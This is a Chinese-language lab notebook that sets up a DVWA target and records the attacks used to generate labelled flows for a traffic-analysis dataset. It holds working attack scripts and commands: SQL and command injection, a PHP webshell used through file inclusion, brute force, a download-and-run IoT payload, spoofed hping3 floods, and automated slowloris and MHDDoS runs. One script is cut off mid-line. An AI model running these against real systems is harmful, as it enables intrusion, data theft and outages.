

# 一、环境侦测
## 1.1 Linux系统内核信息
```
[root@xnwlaqbc ~]# uname -a
Linux xnwlaqbc 5.10.0-216.0.0.115.oe2203sp4.x86_64 #1 SMP Thu Jun 27 15:13:44 CST 2024 x86_64 x86_64 x86_64 GNU/Linux

[root@xnwlaqbc ~]# hostnamectl
 Static hostname: xnwlaqbc
       Icon name: computer-vm
         Chassis: vm
      Machine ID: 16bd4a31931045a6b7abcfa9100d1164
         Boot ID: 043a5f3240d1408199b437ff1b6d1611
  Virtualization: kvm
Operating System: openEuler 22.03 (LTS-SP4)
          Kernel: Linux 5.10.0-216.0.0.115.oe2203sp4.x86_64
    Architecture: x86-64
 Hardware Vendor: QEMU
  Hardware Model: Standard PC _i440FX + PIIX, 1996_

[root@xnwlaqbc ~]# cat /proc/version
Linux version 5.10.0-216.0.0.115.oe2203sp4.x86_64 (root@dc-64g.compass-ci) (gcc_old (GCC) 10.3.1, GNU ld (GNU Binutils) 2.37) #1 SMP Thu Jun 27 15:13:44 CST 2024
```

## 1.2 docker部署
> 思路：下载`docker`压缩包，下载`dvwa`的docker包，在服务器上部署

```bash
docker pull vulnerables/web-dvwa
docker save -o dvwa_image.tar vulnerables/web-dvwa
```
`https://download.docker.com/linux/static/stable/x86_64/`下载`docker-29.3.1.tgz`

把`docekr-29.3.1.tgz`和`dvwa_imgage.tar`丢进`dvwa`文件夹

```bash
# 解压二进制包
tar -xvf docker-29.3.1.tgz

# 将可执行文件移动到系统路径
cp docker/* /usr/bin/

# 启动 Docker 守护进程（因为是别人的服务器，建议手动后台运行，不写 systemd 也可以）
dockerd &
```

## 1.3 加载dvwa镜像
```BASH
# 加载镜像
docker load -i dvwa_image.tar

# 检查镜像，镜像名为vulnerables/web-dvwa:latest
docker images

# 元神启动！
docker run --name my-dvwa -d -p 8080:80 -it vulnerables/web-dvwa:latest

# 检查容器
docker ps

```

```BASH
[root@xnwlaqbc dvwa]# docker ps
CONTAINER ID   IMAGE                         COMMAND      CREATED         STATUS         PORTS                                     NAMES
cb13b511080a   vulnerables/web-dvwa:latest   "/main.sh"   8 seconds ago   Up 7 seconds   0.0.0.0:8080->80/tcp, [::]:8080->80/tcp   my-dvwa
```

## 1.4 修改php.ini
```bash
docker ps # 确认容器id
docker exec -it # 容器id /bin/bash

php -i | grep "Loaded Configuration File" # 查找php.ini位置为/etc/php/7.0/cli/php.ini，得到php版本号7.0，但这里找到的是cli的配置文件

ls /etc/php/7.0/apache2/php.ini

# 使用 sed 直接修改（无需编辑器）
sed -i 's/allow_url_fopen = Off/allow_url_fopen = On/g' /etc/php/7.0/apache2/php.ini
sed -i 's/allow_url_include = Off/allow_url_include = On/g' /etc/php/7.0/apache2/php.ini

service apache2 restart # 重启apache

# setup/reset DB，并改为low难度
```
## 1.5 访问靶机
http://靶机ip:8080

## 1.6 限制访问IP

```
[root@xnwlaqbc ~]# who
root     pts/1        2026-03-29 14:31 (172.31.171.155)
root     pts/2        2026-03-29 15:09 (172.31.171.162)

# 启用 firewalld 并设置开机自启
systemctl start firewalld
systemctl enable firewalld

# 允许指定两个IP访问8080端口
firewall-cmd --permanent --add-rich-rule='rule family="ipv4" source address="172.31.171.155" port port="8080" protocol="tcp" accept'
firewall-cmd --permanent --add-rich-rule='rule family="ipv4" source address="172.31.171.162" port port="8080" protocol="tcp" accept'

# 拒绝其他所有IP访问8080端口
firewall-cmd --permanent --add-rich-rule='rule family="ipv4" port port="8080" protocol="tcp" reject'

# 重新加载防火墙规则使其生效
firewall-cmd --reload
查看生效规则：
firewall-cmd --list-all

rich rules:
rule family="ipv4" port port="8080" protocol="tcp" reject
rule family="ipv4" source address="172.31.171.155" port port="8080" protocol="tcp" accept
rule family="ipv4" source address="172.31.171.162" port port="8080" protocol="tcp" accept
```


### 但是遇到docker端口绕过，重新配置：

```
查看容器信息，获取容器内部IP：
    docker ps
    docker inspect cb13b511080a | grep -i ipaddress
得到容器 IP：172.17.0.2
```

```
# 清空原有规则
iptables -F && iptables -X && iptables -Z
iptables -t nat -F && iptables -t nat -X

# 配置NAT端口映射，恢复宿主机8080到容器80的转发
iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 172.17.0.2:80
iptables -t nat -A POSTROUTING -s 172.17.0.0/16 -j MASQUERADE

# 配置FORWARD链访问控制规则
iptables -P FORWARD ACCEPT
iptables -A FORWARD -s 172.31.171.155 -d 172.17.0.2 -p tcp --dport 80 -j ACCEPT
iptables -A FORWARD -s 172.31.171.162 -d 172.17.0.2 -p tcp --dport 80 -j ACCEPT
iptables -A FORWARD -d 172.17.0.2 -p tcp --dport 80 -j DROP

# 保存规则
service iptables save

#查看
iptables -L FORWARD -n --line-numbers

Chain FORWARD (policy ACCEPT)
num  target     prot opt source               destination
1    ACCEPT     tcp  --  172.31.171.155       172.17.0.2           tcp dpt:80
2    ACCEPT     tcp  --  172.31.171.162       172.17.0.2           tcp dpt:80
3    DROP       tcp  --  0.0.0.0/0            172.17.0.2           tcp dpt:80
```

# 二、攻击
```ZSH
sudo apt update
sudo apt install slowhttptest
sudo apt install slowloris

tcpdump -i any host 172.31.132.2 and port 8080 # 检查靶机8080端口
tcpdump -i any src 172.31.171.162 -n # 检查自己ip来源的流量
tcpdump -i any port 443 -nn -v # 检查正常curl产生的流量

# 防火墙关闭
```


| 攻击流量大类 | 攻击流量小类     | 工具                 | 172.31.171.162攻击起始点 | 172.31.171.155攻击起始点 | OSI层级               | 命令                                                         | 备注                                                |
| ------------ | ---------------- | -------------------- | ------------------------ | ------------------------ | --------------------- | ------------------------------------------------------------ | --------------------------------------------------- |
| 扫描攻击     | 操作系统扫描     | nmap                 | 10:00                    | 10:01                    | 网络层/传输层 (L3/L4) | sudo nmap -O 172.31.132.2                                    |                                                     |
| 扫描攻击     | 端口扫描         | nmap                 | 10:02                    | 10:01                    | 传输层 (L4)           | sudo nmap -p- 172.31.132.2                                   |                                                     |
| 暴力破解     | FTP 破解         | patator              | 10:07                    | 10:37                    | 应用层 (L7)           | patator ftp_login host=172.31.132.2 user=root password=FILE0 0=/usr/share/wordlists/dirb/common.txt |                                                     |
| 暴力破解     | SSH 破解         | patator              | 10:10                    | 10:41                    | 应用层 (L7)           | patator ssh_login host=172.31.132.2 user=root password=FILE0 0=/usr/share/wordlists/dirb/common.txt |                                                     |
| Web 攻击     | XSS 攻击         | sqlmap               | 10:14                    | 10:45                    | 应用层 (L7)           | sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=http://172.31.132.2:8080/tos65u8ssfccgts283ltf8c337" -D dvwa -T users --dump --batch | 修改cookies                                         |
| Web 攻击     | SQL 注入         | sqlmap               | 10:15                    | 10:47                    | 应用层 (L7)           | 检测注入漏洞`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --batch`<br />枚举数据库名称`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --dbs --batch`<br />查看当前使用的数据库`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --current-db --batch`<br />枚举指定数据库下的所有表`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" -D dvwa --tables --batch`<br />窃取特定表的数据`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" -D dvwa -T users --dump --batch`<br /> | 修改cookies                                         |
| Web攻击      | 命令注入         | command_injection.py | 10:18                    | 10:10                    | 应用层(L7)            | python3 command_injection.py                                 |                                                     |
| Web攻击      | 代码注入         | file_inclusion.py    | 10:22                    | 10:15                    | 应用层(L7)            | python3 file_inclusion.py                                    |                                                     |
| 系统攻击     | system漏洞攻击   | msfconsole           | 10:24                    | 10:02、10:11             | 传输层(L4)            |                                                              |                                                     |
| Web攻击      | database漏洞攻击 | sqli_attack.py       | 10:28                    | 10:06                    | 应用层(L7)            | python3 sqli_attack.py                                       |                                                     |
| Web攻击      | 口令暴力破解攻击 | brute_force.py       | 10:32                    | 10:08、10:30             | 应用层(L7)            | python3 brute_force.py                                       |                                                     |
| Web攻击      | IoT漏洞攻击      | iot_attack.py        | 10:36                    | 10:13                    | 应用层(L7)            | python3 iot_attack.py                                        |                                                     |
| Web攻击      | xss漏洞攻击      | xss_attack.py        |                          | 10:17                    | 应用层(L7)            | python3 xss_attack.py                                        |                                                     |
| Web攻击      | csrf漏洞攻击     | csrf_attack          |                          | 10:18                    | 应用层(L7)            | python3 csrf_attack                                          |                                                     |
| DDos         | syn flood        | hping3               | 10:42                    | 10:51                    | 传输层 (L4)           | sudo hping3 -S --flood --rand-source -d 0 -p 8080 172.31.132.2<br /> | 防火墙关闭，桥接模式，SYN Flood，6线程              |
| DDos         | udp flood        | hping3               | 10:45                    | 10:06、10:51             | 传输层 (L4)           | sudo hping3 --udp --flood --rand-source -d 0 -p 8080 172.31.132.2 | 防火墙关闭，桥接模式，UDP Flood，6线程              |
| DDos         | icmp flood       | hping3               | 10:49                    | 10:52                    | 网络层 (L3)           | sudo hping3 --icmp --flood --rand-source -d 56 172.31.132.2  | 防火墙关闭，桥接模式，UDP Flood，6线程              |
| DDos         | icmp flood       | hping3               | 10:51                    | 10:53                    | 网络层 (L3)           | sudo hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 | 防火墙关闭，桥接模式，ICMP Flood（超大ICMP），6线程 |
| DDos         | syn flood        | hping3               | 10:52                    |                          | 传输层 (L4)           | hping3 -S --flood -d 0 -p 8080 172.31.132.2                  | 防火墙关闭，net模式                                 |
| DDos         | udp flood        | hping3               | 10:54                    |                          | 传输层 (L4)           | hping3 --udp --flood -d 0 -p 8080 172.31.132.2               | 防火墙关闭，net模式                                 |
| DDos         | icmp flood       | hping3               | 10:55                    |                          | 网络层 (L3)           | hping3 --icmp --flood -d 56 172.31.132.2                     | 防火墙关闭，net模式                                 |

# 三、新要求（五元组样本）
还有一个小需求：
系统命令注入 / 代码注入 / system漏洞攻击 / database漏洞攻击 / 口令暴力破解攻击 / IoT漏洞攻击这些类别的五元组样本较少，因为我们分析都是基于五元组的，希望能够增加一些样本量（每个类别有50条流就可以）

## 3.1 命令注入（command injection）✅
kali中创建`command_injection.py`，(**修改cookies**)

```python
import requests

# 目标 URL
url = "http://172.31.132.2:8080/vulnerabilities/exec/"

# 配置 Cookie
headers = {
    "Cookie": "security=low; PHPSESSID=tos65u8ssfccgts283ltf8c337",
    "Connection": "close"  # 强制关闭长连接，确保每条请求产生独立的五元组流
}

# 攻击载荷
data = {
    "ip": "127.0.0.1; cat /etc/passwd",
    "Submit": "Submit"
}

print("开始发送攻击流量...")

for i in range(50):
    try:
        # 发送 POST 请求
        response = requests.post(url, data=data, headers=headers)
        print(f"第 {i+1} 条流已发送，状态码: {response.status_code}")
    except Exception as e:
        print(f"第 {i+1} 条请求失败: {e}")

print("任务完成。")
```

## 3.2 代码注入（File Inclusion模拟）✅
靶机操作（已操作完毕，无需重复操作）
```BASH
echo '<?php echo "Attack_Success"; system($_GET["cmd"]); ?>' > /tmp/shell.txt
# 确保 Web 服务用户（通常是 www-data）有权读取该文件
chmod 777 /tmp/shell.txt
```

把文件拷贝进容器（已操作完毕，无需重复操作）
```bash
docker ps
docker cp /tmp/shell.txt feb201492d8f:/tmp/shell.txt
docker exec -u root feb201492d8f chmod 777 /tmp/shell.txt
```

kali中创建`file_inclusion.py`：(**修改cookies**)
```PYTHON
import requests
import time

# 1. 配置参数
target_url = "http://172.31.132.2:8080/vulnerabilities/fi/"
# 尝试使用绝对路径，绕过目录深度计算
malicious_script = "/tmp/shell.txt" 
# 请务必更新为你当前浏览器中真实的 PHPSESSID
cookies = {
    'PHPSESSID': 'tos65u8ssfccgts283ltf8c337', 
    'security': 'low'
}

print(f"[*] Starting attack simulation on {target_url}...")

for i in range(50):
    params = {
        'page': malicious_script,
        'attack_id': i,
        'cmd': 'id'
    }

    try:
        # 使用 allow_redirects=False 可以通过 302 状态码发现 Session 是否过期
        response = requests.get(
            target_url, 
            params=params, 
            cookies=cookies, 
            headers={'Connection': 'close'},
            timeout=5,
            allow_redirects=False 
        )

        # 检查是否被重定向到登录页面
        if response.status_code == 302:
            print(f"Flow {i+1}: [!] Failed - Session Expired or Invalid (Redirected to Login).")
            break

        # 检查响应逻辑
        if "Attack_Success" in response.text:
            print(f"Flow {i+1}: [!] SUCCESS - Shell Executed!")
            # 截取显示结果
            idx = response.text.find("Attack_Success")
            print(f"    >>> Output: {response.text[idx:idx+60].strip()}")
        else:
            print(f"Flow {i+1}: [?] Status {response.status_code} - No Payload Execution.")
            # 调试：打印前100个字符看看返回的是什么页面
            # print(f"    DEBUG: {response.text[:100]}")

    except Exception as e:
        print(f"Flow {i+1}: [X] Error: {e}")

    time.sleep(0.5)
```

## 3.3 system漏洞攻击✅
```bash
msfconsole
search scanner/portscan/tcp
use auxiliary/scanner/portscan/tcp

# 在msf6 auxiliary(scanner/portscan/tcp) >提示符输入
set RHOSTS 172.31.132.2
set PORTS 1-1000
set THREADS 50
show options
run
```
## 3.4 database漏洞攻击（SQL Injection）✅
kali创建`sqli_attack.py`：(**修改cookies**)

```PYTHON
import requests
import time

# --- 配置区 ---
# 目标 URL (DVWA SQLi 模块)
TARGET_URL = "http://172.31.132.2:8080/vulnerabilities/sqli/"

# 你的登录 Cookie (请在浏览器 F12 中获取最新的 PHPSESSID)
# security=low 是为了确保 SQL 注入载荷能够成功触发漏洞逻辑
COOKIES = {
    "PHPSESSID": "tos65u8ssfccgts283ltf8c337",
    "security": "low"
}

# 强制关闭长连接，确保每一个请求都产生一个新的 TCP 五元组（新的源端口）
HEADERS = {
    "Connection": "close"
}

# 准备 50 个不同的 SQL 注入 Payload，增加数据集的多样性
payloads = [
    f"1' OR '1'='1' -- {i}" for i in range(50)
]

def run_attack():
    print(f"开始生成 SQL 注入攻击流量，目标: {TARGET_URL}")
    print("---------------------------------------------------------")

    for i, payload in enumerate(payloads):
        params = {
            "id": payload,
            "Submit": "Submit"
        }

        try:
            # 发送 GET 请求
            response = requests.get(TARGET_URL, params=params, cookies=COOKIES, headers=HEADERS, timeout=5)

            # 验证是否成功触发（简单判断返回码）
            if response.status_code == 200:
                print(f"[+] 流 {i+1:02d} 已发送 | 源端口: 随机 | Payload: {payload[:30]}...")
            else:
                print(f"[!] 流 {i+1:02d} 请求返回异常状态码: {response.status_code}")

        except Exception as e:
            print(f"[-] 流 {i+1:02d} 发送失败: {e}")

        # 建议加一个极短的延迟（如 0.05秒），防止发包太快导致防火墙协议栈处理异常
        time.sleep(0.05)

    print("---------------------------------------------------------")
    print("任务完成！已成功发送 50 条独立的攻击流。")

if __name__ == "__main__":
    run_attack()
```

## 3.5 口令暴力破解攻击（Brute Force）✅
kali创建`brute_force.py`，(**修改cookies**)
```python
import requests

url = "http://172.31.132.2:8080/vulnerabilities/brute/"
wordlist_path = "/usr/share/wordlists/dirb/common.txt"
headers = {
    "Cookie": "security=low; PHPSESSID=tos65u8ssfccgts283ltf8c337",
    "Connection": "close" # 必须 close 才能确保 50 条流
}

# 读取字典前 50 行
with open(wordlist_path, 'r') as f:
    passwords = [line.strip() for line in f.readlines()[:50]]

print(f"正在使用 {wordlist_path} 生成 50 条攻击流...")

for i, pwd in enumerate(passwords):
    params = {"username": "admin", "password": pwd, "Login": "Login"}
    try:
        requests.get(url, params=params, headers=headers, timeout=5)
        print(f"流 {i+1}: 使用密码 [{pwd}] 发送成功")
    except:
        print(f"流 {i+1}: 失败")

print("任务完成，防火墙现在应该已经记录了 50 条不同的五元组数据。")
```

## 3.6 IoT漏洞攻击✅
kali创建`iot_attack.py`模拟华为路由器RCE(CVE-2017-17215)，(**修改cookies**)

```python
import requests
import time

# --- 配置参数 ---
TARGET_IP = "172.31.132.2"
TARGET_PORT = "8080"
# 保持 PHPSESSID 与你浏览器中的一致
COOKIES = {
    'PHPSESSID': 'tos65u8ssfccgts283ltf8c337',
    'security': 'low'
}

HEADERS = {
    'Connection': 'close',
    'Content-Type': 'text/xml',
    'User-Agent': 'IoT-Attacker-Python/1.0'
}

# 模拟 IoT 漏洞的 Payload
XML_PAYLOAD = """<?xml version="1.0"?>
<methodCall>
    <methodName>test.system.command</methodName>
    <params>
        <param>
            <value>
                <string>;/usr/bin/id; wget http://1.1.1.1/iot_reaper -O /tmp/r; chmod +x /tmp/r; /tmp/r</string>
            </value>
        </param>
    </params>
</methodCall>"""

def run_attack():
    print(f"[*] 开始模拟 IoT 攻击，目标: {TARGET_IP}:{TARGET_PORT}")
    
    for i in range(1, 51):
        # 动态构造包含 ID 的 URL
        url = f"http://{TARGET_IP}:{TARGET_PORT}/vulnerabilities/exec/cgi-bin/config.exp?id={i}"
        
        try:
            # 发送 POST 请求
            # requests.post 不使用 Session 对象时，配合 Connection: close 
            # 通常能确保操作系统为每次请求分配新的随机源端口
            response = requests.post(
                url, 
                data=XML_PAYLOAD, 
                headers=HEADERS, 
                cookies=COOKIES,
                timeout=5
            )
            
            print(f"[{i:02d}] 发送成功 | 源端口变化检查: 已发送 | 状态码: {response.status_code}")
            
        except Exception as e:
            print(f"[{i:02d}] 发送失败 | 错误: {e}")

        # 控制频率，确保五元组在抓包工具中清晰可辨
        time.sleep(0.2)

    print("\n[+] 50 条恶意流量构造完毕。请检查抓包文件。")

if __name__ == "__main__":
    run_attack(

```

# 四、4.20攻击记录
| 攻击流量大类 | 攻击流量小类     | 工具                 | 172.31.171.162攻击起始点 | 172.31.171.155攻击起始点 | OSI层级               | 命令                                                         | 备注                                                |
| ------------ | ---------------- | -------------------- | ------------------------ | ------------------------ | --------------------- | ------------------------------------------------------------ | --------------------------------------------------- |
| 扫描攻击     | 操作系统扫描     | nmap                 | 10:00                    | 10:01                    | 网络层/传输层 (L3/L4) | sudo nmap -O 172.31.132.2                                    |                                                     |
| 扫描攻击     | 端口扫描         | nmap                 | 10:02                    | 10:01                    | 传输层 (L4)           | sudo nmap -p- 172.31.132.2                                   |                                                     |
| 暴力破解     | FTP 破解         | patator              | 10:07                    | 10:37                    | 应用层 (L7)           | patator ftp_login host=172.31.132.2 user=root password=FILE0 0=/usr/share/wordlists/dirb/common.txt |                                                     |
| 暴力破解     | SSH 破解         | patator              | 10:10                    | 10:41                    | 应用层 (L7)           | patator ssh_login host=172.31.132.2 user=root password=FILE0 0=/usr/share/wordlists/dirb/common.txt |                                                     |
| Web 攻击     | XSS 攻击         | sqlmap               | 10:14                    | 10:45                    | 应用层 (L7)           | sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=http://172.31.132.2:8080/tos65u8ssfccgts283ltf8c337" -D dvwa -T users --dump --batch | 修改cookies                                         |
| Web 攻击     | SQL 注入         | sqlmap               | 10:15                    | 10:47                    | 应用层 (L7)           | 检测注入漏洞`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --batch`<br />枚举数据库名称`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --dbs --batch`<br />查看当前使用的数据库`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" --current-db --batch`<br />枚举指定数据库下的所有表`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" -D dvwa --tables --batch`<br />窃取特定表的数据`sudo sqlmap -u "http://172.31.132.2:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=tos65u8ssfccgts283ltf8c337; security=low" -D dvwa -T users --dump --batch`<br /> | 修改cookies                                         |
| Web攻击      | 命令注入         | command_injection.py | 10:18                    | 10:10                    | 应用层(L7)            | python3 command_injection.py                                 |                                                     |
| Web攻击      | 代码注入         | file_inclusion.py    | 10:22                    | 10:15                    | 应用层(L7)            | python3 file_inclusion.py                                    |                                                     |
| 系统攻击     | system漏洞攻击   | msfconsole           | 10:24                    | 10:02、10:11             | 传输层(L4)            |                                                              |                                                     |
| Web攻击      | database漏洞攻击 | sqli_attack.py       | 10:28                    | 10:06                    | 应用层(L7)            | python3 sqli_attack.py                                       |                                                     |
| Web攻击      | 口令暴力破解攻击 | brute_force.py       | 10:32                    | 10:08、10:30             | 应用层(L7)            | python3 brute_force.py                                       |                                                     |
| Web攻击      | IoT漏洞攻击      | iot_attack.py        | 10:36                    | 10:13                    | 应用层(L7)            | python3 iot_attack.py                                        |                                                     |
| Web攻击      | xss漏洞攻击      | xss_attack.py        |                          | 10:17                    | 应用层(L7)            | python3 xss_attack.py                                        |                                                     |
| Web攻击      | csrf漏洞攻击     | csrf_attack          |                          | 10:18                    | 应用层(L7)            | python3 csrf_attack                                          |                                                     |
| DDos         | syn flood        | hping3               | 10:42                    | 10:51                    | 传输层 (L4)           | sudo hping3 -S --flood --rand-source -d 0 -p 8080 172.31.132.2<br /> | 防火墙关闭，桥接模式，SYN Flood，6线程              |
| DDos         | udp flood        | hping3               | 10:45                    | 10:06、10:51             | 传输层 (L4)           | sudo hping3 --udp --flood --rand-source -d 0 -p 8080 172.31.132.2 | 防火墙关闭，桥接模式，UDP Flood，6线程              |
| DDos         | icmp flood       | hping3               | 10:49                    | 10:52                    | 网络层 (L3)           | sudo hping3 --icmp --flood --rand-source -d 56 172.31.132.2  | 防火墙关闭，桥接模式，UDP Flood，6线程              |
| DDos         | icmp flood       | hping3               | 10:51                    | 10:53                    | 网络层 (L3)           | sudo hping3 --icmp --flood --rand-source -d 1000 172.31.132.2 | 防火墙关闭，桥接模式，ICMP Flood（超大ICMP），6线程 |
| DDos         | syn flood        | hping3               | 10:52                    |                          | 传输层 (L4)           | hping3 -S --flood -d 0 -p 8080 172.31.132.2                  | 防火墙关闭，net模式                                 |
| DDos         | udp flood        | hping3               | 10:54                    |                          | 传输层 (L4)           | hping3 --udp --flood -d 0 -p 8080 172.31.132.2               | 防火墙关闭，net模式                                 |
| DDos         | icmp flood       | hping3               | 10:55                    |                          | 网络层 (L3)           | hping3 --icmp --flood -d 56 172.31.132.2                     | 防火墙关闭，net模式                                 |

# 五、慢速攻击和L7攻击测试
## 5.1 low-rate ddos
1. MHDoS慢速攻击：（先在MHDDoS文件夹里`touch empty.txt`）(13:22~13:27)
     python3 start.py SLOW http://172.31.132.2:8080/ 5 500 empty.txt 10 300
     
2. slowloris(慢速请求头)：发送不完整的HTTP Header，让服务器一直等着。(13:42~13:44)
     slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://172.31.132.2:8080/ -x 24 -p 3

3. slow post(慢速正文)：模拟大文件上传，但每次只发一个字节。(13:47~13:48)
     slowhttptest -c 1000 -B -i 10 -r 200 -s 8192 -t POST -u http://172.31.132.2:8080/ -x 10 -p 3

4. slow read(慢速读取)：接收响应非常慢，强迫服务器将数据缓存在内核中。(13:50~13:52)
     slowhttptest -c 1000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -u http://172.31.132.2:8080/

## 5.2 MHDoS
## 5.2.1 安装
CC 攻击利用的是 HTTP 协议，模拟真实用户的浏览行为，这里选择MHDoS
```BASH
cd MHDDoS
git clone https://github.com/MatrixTM/MHDDoS.git
python3 -m venv mhddos
source mhddos/bin/activate
pip install -r requirements.txt
python3 start.py
```

## 5.2.2 HTTP Flood
```BASH
python3 start.py GET http://172.31.132.2:8080/ 5 2000 empty.txt 100 300(13:54~13:59)
```

## 5.2.3 CC攻击
```BASH
python3 start.py POST http://172.31.132.2:8080/ 5 1500 empty.txt 50 300(14:02~14:07)
```

# 六、慢速攻击和L7自动化攻击脚本
## 6.1 脚本
自动化攻击脚本👇（先进入`/MHDDoS`）
```PYTHON
import subprocess
import time
import os
from datetime import datetime, timedelta

# 1. 配置信息
TARGET_URL = "http://172.31.132.2:8080/login.php"
COOLDOWN_TIME = 60  # 冷却时间，确保服务器连接完全释放

# --- 路径自动校准 ---
MHDDOS_PATH = "/root/sec/attacker/MHDDoS"

# 自动寻找存在的 Python 解释器
potential_pythons = [
    os.path.join(MHDDOS_PATH, "mhddos/bin/python3"), 
    os.path.join(MHDDOS_PATH, "venv/bin/python3"),
    "/usr/bin/python3"
]

VENV_PYTHON = ""
for p in potential_pythons:
    if os.path.exists(p):
        VENV_PYTHON = p
        break

if not VENV_PYTHON:
    print("❌ 错误：找不到任何可用的 Python 解释器！")
    exit(1)

# 2. 任务清单 (格式: 任务名, 工具, 命令, 预计运行秒数)
# 定义代理文件的绝对路径
PROXY_FILE = os.path.join(MHDDOS_PATH, "files/proxies/empty.txt") #
tasks = [
    ("慢速攻击slowloris", "slowhttptest", f"slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u {TARGET_URL} -x 24 -p 3", 240),
    ("慢速攻击slow post", "slowhttptest", f"slowhttptest -c 1000 -B -i 10 -r 200 -s 8192 -t POST -u {TARGET_URL} -x 10 -p 3", 240),
    ("慢速攻击slow read", "slowhttptest", f"slowhttptest -c 1000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -u {TARGET_URL}", 240),
    ("慢速攻击", "MHDDoS", f"{VENV_PYTHON} {MHDDOS_PATH}/start.py SLOW {TARGET_URL} 5 500 {PROXY_FILE} 10 300", 300),
    ("HTTP Flood", "MHDDoS", f"{VENV_PYTHON} {MHDDOS_PATH}/start.py GET {TARGET_URL} 5 2000 {PROXY_FILE} 100 300", 300),
    ("CC攻击", "MHDDoS", f"{VENV_PYTHON} {MHDDOS_PATH}/start.py POST {TARGET_URL} 5 1500 {PROXY_FILE} 50 300", 300)
]

results = []

def run_research():
    total_task_seconds = sum(task[3] for task in tasks)
    total_cooldown_seconds = COOLDOWN_TIME * (len(tasks) - 1)
    total_duration = total_task_seconds + total_cooldown_seconds
    eta_finish = datetime.now() + timedelta(seconds=total_duration)

    print(f"✅ 成功锁定 Python 路径: {VENV_PYTHON}")
    print(f"🚀 自动化实验开始 | 目标: {TARGET_URL}")
    print(f"📅 当前时间: {datetime.now().strftime('%H:%M:%S')}")
    print(f"⌛ 总预计耗时: {total_duration // 60} 分 {total_duration % 60} 秒")
    print(f"🏁 预计全部结束时间: {eta_finish.strftime('%H:%M:%S')}")
    print("=" * 60)

    for i, (name, tool, cmd, duration) in enumerate(tasks, 1):
        start_t_obj = datetime.now()
        start_t_str = start_t_obj.strftime("%H:%M")
        task_eta = start_t_obj + timedelta(seconds=duration)

        print(f"\n[任务 {i}/{len(tasks)}] 执行中: {name}")
        print(f"⏱️ 预计此项结束时间: {task_eta.strftime('%H:%M:%S')}")

        try:
            # 去掉 check=True，改为 check=False
            # 这样即使 MHDDoS 返回 1，脚本也会认为它运行结束了，继续往下走
            result = subprocess.run(cmd, shell=True, check=False, cwd=MHDDOS_PATH, capture_output=False)

            # 记录为成功，因为我们知道它运行够了时间
            end_t_str = datetime.now().strftime("%H:%M")
            results.append({"type": name, "tool": tool, "time": f"{start_t_str}~{end_t_str}"})
            print(f"✅ 攻击任务已完成（程序退出码: {result.returncode}）")

        except Exception as e:
            # 只有脚本自己崩了（比如找不到 Python 解释器）才会走这里
            print(f"❌ 脚本逻辑触发异常: {e}")

    # --- 生成报告 ---
    print("\n" + "="*20 + " 实验结果统计 " + "="*20)
    md = "|攻击类型|工具|时间段|\n|-------|---|-----|\n"
    for r in results:
        md += f"|{r['type']}|{r['tool']}|{r['time']}|\n"

    print(md)
    with open("report.md", "w", encoding="utf-8") as f:
        f.write(md)
    print(f"💾 结果已保存至 {os.getcwd()}/report.md")

if __name__ == "__main__":
    run_research()
```

## 6.2 初代版本问题
结果只得到了如图的结果，检测到使用明文登录，且url是`172.31.132.2:8080/login.php`而非`172.31.132.2:8080`


